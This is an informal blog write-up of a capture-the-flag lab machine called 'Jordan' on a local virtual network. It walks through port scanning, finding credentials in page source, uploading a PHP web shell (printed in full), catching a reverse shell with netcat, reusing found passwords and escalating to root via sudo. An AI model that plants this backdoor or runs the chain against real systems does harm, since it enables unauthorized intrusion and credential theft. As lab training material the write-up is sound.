 ```yaml
---
layout: post
title: Jordan
date: 26-05-2025
categories: [medium]
tags: [basic]
image: "https://images.soleretriever.com/blog/a814e02f7fdc6a5ce6a002cc734d1b2b4e9a7611-1070x760.png?quality=90&fit=clip&auto=format&width=1200"
---
```

>Hi am cyberkiddle how are you doing, ithink your going well and every thing is cool is that right?
> If not am sorry for that you will be fine.
{: .prompt-hint }


>Welcome to the next space and we need to find the price of jordan.
> This time we need to dive into hacking with more skills and not walkthroughs try first if you thing you have some thing to get help you can try to come back.
{: .prompt-hint }

![Screenshot From 2025-05-25 11-03-13](https://github.com/user-attachments/assets/ca934608-f16f-4d92-a12a-ad5c0eec0e8d)


## Scanning
```
~/Desktop/redteam/hack/jordan » nmap -sC -sV 192.168.56.106                                       cyberkid@cyberkiddle
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 19:12 EAT
Nmap scan report for 192.168.56.106
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
|   256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_  256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:78:27:C1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
-----------------------------------------------------------------------------------------------------------------------


```
## Enumarting 
Found dumped credential in the website, from the website source codes.

```
<html>
<head>
<title>
Fake admin area :)
</title>
<body>
<center><h1>The admin area not work :) </h1></center>
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
</body>
</html>



```
## Payload upload 
This is the crutial part that will give me the access to the target
![Screenshot From 2025-05-26 19-36-36](https://github.com/user-attachments/assets/533be8e1-169a-4153-b369-41ff7861456c)


```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->


```
By this we can now get the reverse shell from the payload of python from reverseshell generator. using burp suite and get the access from there.


## intial access
>After i crafted the payload to get into the system
{: .prompt-hint }

![Screenshot From 2025-05-26 19-58-12](https://github.com/user-attachments/assets/c7154137-02e7-4dc7-a0ce-9655f5d4418d)

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/jordan » nc -lnvp 1234                                                 1 ↵ cyberkid@cyberkiddle
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.106] 54410
$ whoami
whoami
www-data
$ /bin/bash -i
/bin/bash -i
www-data@Jordaninfosec-CTF01:/var/www/html/uploaded_files$ clear

```
## Credetials i found in using linenum
>here we need to find the valid user credentials for the user in the system and try to use them
{: .prompt-hint }
you can use automation or any other way.

```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt
<1:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt                         
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/tmp/lilly$ 



```
## Lateral movement.
I found the credential file named in the list and i think it was so closer to be root write? lets see.

```
 Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/etc/mysql/conf.d/credentials.txt
/etc/pam.d/common-password
/etc/ssl/private/ssl-cert-snakeoil.key
/usr/lib/git-core/git-credential
/usr/lib/git-core/git-credential-cache
/usr/lib/git-core/git-credential-cache--daemon
/usr/lib/git-core/git-credential-store
  #)There are more creds/passwds files in the previous parent folder


```

## Gues whoami
Finally i got the right credentials lets move more to root.
```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/tmp/lilly$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/tmp/lilly$ 

```
lets try to see if we can have lateral movemments and try to hack more

## Am Root are your happy
```
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo su
sudo su
root@Jordaninfosec-CTF01:/tmp/lilly# whoami 
whoami
root
root@Jordaninfosec-CTF01:/tmp/lilly# 



```
## Lets hack database
```
root@Jordaninfosec-CTF01:/var/www/html# cat chec	
cat check_login.php 
<?php
session_start();
$username = $_POST["user_name"];
$password = $_POST["pass_word"];
if($username ==="admin" && $password==="3v1l_H@ck3r")
{
	$_SESSION['loggedin']=true;
	header("Location: index.php");	
}
else
{
	echo "<br/><h1 style='color:red'><center>Error in username/password</center></h1>";
}
?>
root@Jordaninfosec-CTF01:/var/www/html# 

```

## Task what was the mysql login creds?
 Am glad we made it it was so simple and easy to do write how is your progress send me via email in about parten and i will see.
![Screenshot From 2025-05-26 20-54-37](https://github.com/user-attachments/assets/aae66087-6672-4a3a-979f-d0d632fb2d98)

>I think you have enjoyed and every thing gopes well thank you much.
{: .prompt-hint }

